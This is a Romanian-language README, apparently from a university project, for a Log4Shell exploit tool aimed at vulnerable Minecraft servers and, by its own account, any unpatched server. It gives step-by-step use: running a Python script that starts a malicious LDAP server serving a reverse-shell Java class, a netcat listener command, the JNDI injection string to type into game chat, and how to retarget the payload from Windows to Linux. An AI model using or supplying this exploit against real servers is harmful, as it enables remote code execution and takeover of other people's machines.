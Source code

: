 # Log4shell

## Descriere

Acest proiect exploateaza vulnerabilitatea Log4shell. Este destinat folosirii lui pentru a ataca un server vulnerabil de Minecraft, joc video foarte popular. Insa poate fi folosit pentru atacul oricarui server neprotejat de acest exploit.

Proiectul este capabil sa initieze o conexiune de tip reverse shell.

## Dependinte

### Sistemul atacatorului

Proiectul este construit sa functioneze pe un sistem Kali Linux. Acesta are deja instalate urmatoarele programe necesare: Python3, Netcat, Git.

Pentru a instala Kali accesati [pagina oficiala](https://www.kali.org/docs/installation/hard-disk-install/) a softwareului.

In reproducerea atacului am folosit [Virtualbox](https://www.virtualbox.org/wiki/Downloads) pentru a virtualiza masina de Kali Linux. [Tutorial](https://www.kali.org/docs/virtualization/install-virtualbox-guest-vm/) 

In ambele scenarii de instalare a sistemului Kali trebuie asigurata conexiunea la retea cu masina dorita sa fie atacata.

### Sistemul atacatat

In fisiere se pot regasii pachetele Java vulnerabile pentru Windows si Linux(Debian). In functie de sistemul ales se descarca aplicatia respectiva (Fisierul .tar.gz pentru Debian, Fisiserul .exe pentru Windows).

Pentru versiunea Minecraft vulnerabila se recomanda descarcarea de pe [acest link](https://mcversions.net/download/1.8.8). Acest fisier .jar va fi executat pe masina vulnerabila dorita. [How to](https://help.minecraft.net/hc/en-us/articles/360058525452-How-to-Setup-a-Minecraft-Java-Edition-Server)

## Executarea exploitului

* Dupa ce se cloneza acest repository, se intra in folderul lui.

* Urmatoarea caseta explica cum trebuie executat scripul de Python:
```
usage: application.py [-h] [--ip IP] [--port PORT]
                      [--nume_clasa NUME_CLASA]

Un script care primește IP-ul, portul și numele clasei java. Usage: python3
application.py --ip <IP> --port <Port> --nume_clasa <Nume>

optional arguments:
  -h, --help            show this help message and exit
  --ip IP               Adresa IP a serveului LDAP
  --port PORT           Portul Netcat
  --nume_clasa NUME_CLASA Clasa java
```
IP - Ip-ul masinii actuale (atacatorului)

Port - Portul unde este acultata conexiunea reverse shell (ex:9999)

Nume - Numele dorit pentru clasa java reverse shell generata

* Pana se configureaza intreg sistemul poate dura mult timp!

* Dupa rulare, va exista un server malitios valabil pentru a injecta clasa java ce initiaza o conexiune reverse shell.

### Observatii!

Scriptul este configurat pentru a ataca o masina Windows. Pentru atacul unei masini Linux trebuie schimbat in script programul Java. Se cauta in fisier "cmd.exe" si se inlocuieste cu "/bin/bash".

* Netcat

Pornirea unei instante separate netcat. Asculta pentru o conexiune reverse shell.
```
nc -lvnp 9999
```

Aici va fi gasita linia de comanda a sistemului atacat

## Injectare si rezultate

In consola, unde scriptul python ruleaza, se va afisa comanda necesara ce trebuie introdusa in sistemul vulnerabil. Cum ar trebuii sa arate comanda: `${jndi:ldap://{args.ip}:1389/{args.nume_clasa}}`

Pentru serverul de Minecraft trebuie sa ne conectam cu un client. Dupa conexiunea la sever a clientului se introduce comanda anterioara in chat(Se apasa tasta "T").

In final ar trebui sa avem o conexiune de terminal in fereastra cu Netcat.

## Autor

Gheorghita Dan 
@Universitatea Politehnica Timisoara
